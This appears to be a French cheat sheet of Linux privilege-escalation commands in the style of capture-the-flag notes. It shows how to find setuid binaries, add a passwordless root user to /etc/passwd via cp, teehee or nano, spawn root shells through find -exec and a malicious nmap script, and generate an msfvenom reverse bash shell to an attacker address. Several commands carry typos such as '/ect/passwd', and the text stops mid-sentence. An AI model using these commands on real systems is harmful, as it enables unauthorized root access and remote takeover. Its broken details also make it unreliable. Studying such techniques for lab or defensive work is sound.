## Détournement de commandes setuid
Pour obtenir les commandes avec les droits root pour l'utilisateur courant:

    $ sudo -l

Pour exécuter une commande à la place d'un autre utilisateur

    $ sudo -u <user> <commande> 

Pour trouver la liste des commandes qui ont les droits root:

    $ find / -perm -u=s -type f 2>/dev/null

### cp
On va copier /etc/passwd dans /tmp, libre de droit, l'éditer pour ajouter une ligne avec un utilisateur root, puis recopier dans /etc/passwd

    $ openssl passwd -1 -salt micka pass123
    $ cp /tmp/passwd /etc/passwd
    $ su micka

### find
On créé un fichier que find sera sur de trouver enchainant sur l'execution d'une commande … un shell

    $ cd tmp
    $ touch fichier
    $ find fichier -exec "/bin/bash" \;

### teehee
teehee est un éditeur de texte qui log dans un fichier la sortie standard. On ajoute donc un user root dans /etc/passwd qui écrira dans ce fichier puisque le binaire est en exec root pour cet utilisateur

    $ echo "micka::0:0:::/bin/bash" | sudo teehee -a /ect/passwd
    $ su micka

### nano

    $ nano /ect/passwd

### nmap
Exploitation de nmap avec les droits user. Création d'un script nmap qui lance un shell puis lancement

    $ echo "os.execute('/bin/sh')">/tmp/root.nse
    $ sudo nmap --script=/tmp/root.nse

### script shell
Si un script sh est éxéutable avec les droits root, on ajouter une instruction de lancement d'un bash ou un code récupéré par un msfvenom en RAW créant un reverse shell

    $ msfvenom -p cmd/unix/reverse_bash lhost=@ip_att lport=numport R 
on a la création d'un script:
